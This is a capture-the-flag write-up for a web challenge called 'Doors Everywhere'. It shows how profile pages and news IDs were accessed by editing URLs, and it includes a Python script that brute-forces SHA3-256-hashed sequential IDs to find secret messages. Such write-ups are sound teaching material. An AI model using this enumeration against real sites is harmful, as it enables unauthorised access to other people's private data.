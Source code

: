 # Doors Everywhere

https://secuweb-web.2024-bq.ctfcompetition.com/

![image](./images/1.png)

https://secuweb-web.2024-bq.ctfcompetition.com/login

![image](./images/2.png)

https://secuweb-web.2024-bq.ctfcompetition.com/home

![image](./images/3.png)

## Part 1

> A security update about profiles? There's no way there could be a flag there. Unless?

Clicking on "Profile" button redirects to https://secuweb-web.2024-bq.ctfcompetition.com/profile/guest \
Changing the URL to https://secuweb-web.2024-bq.ctfcompetition.com/profile/admin gives the Flag

## Part 2

> There are a few news articles there, but there's something odd about their URLs...

Clicking on News articles redirect to https://secuweb-web.2024-bq.ctfcompetition.com/news/num where num=1,2,3,4,5,7 \
num=6 gives the flag

## Part 3

> Secret messages! Probably the most secure part of this website. There's no way to guess those URLs. ...Unless?

Clicking on "Send Secret Message" button redirects to https://secuweb-web.2024-bq.ctfcompetition.com/send

![image](./images/4.png)

Upon inspecting HTML:

```html
<label>Secret ID:
<!--
    FIXME: Hack to show people what the secret ID will be after they send their message. It _usually_
        works, but sometimes it doesn't, if someone takes too long to write their message.
        The real way to fix this is to better explain that they need to actually finish writing
        their message before they can get the link.
        If they really need the link inside the message, for some reason, we should just add
        the ability to edit a message after saving it.
-->
    <input id="secretIdField" type="text" value="Click to display" readonly="" onclick="generateHash('1293')">
</label>
```

And the number inside generateHash gets incremented at every reload

The news article "2024-06-30 - Secret Messages are Live" redirects to article 7, which contains a link to a secret message: https://secuweb-web.2024-bq.ctfcompetition.com/message/67b176705b46206614219f47a05aee7ae6a3edbe850bbbe214c536b989aea4d2

It can be confirmed that the hash in the URL is SHA3-256 hash of '1'

So we need to find the number whose message contains the flag. Good old brute force:

```python
from Crypto.Hash import SHA3_256
import requests

i = 1
while True:
    h_obj = SHA3_256.new()
    num = f'{i}'.encode()
    h_obj.update(num)
    digest = h_obj.hexdigest()

    url = f'https://secuweb-web.2024-bq.ctfcompetition.com/message/{digest}'
    response = requests.get(url)

    if response.status_code == 200:
        print(f"[+] Found at {url}")
        print(response.text)
        if "CTF{" in response.text:
            break
    else:
        print(f"[-] {url} returned status {response.status_code}")
    
    i = i+1
```
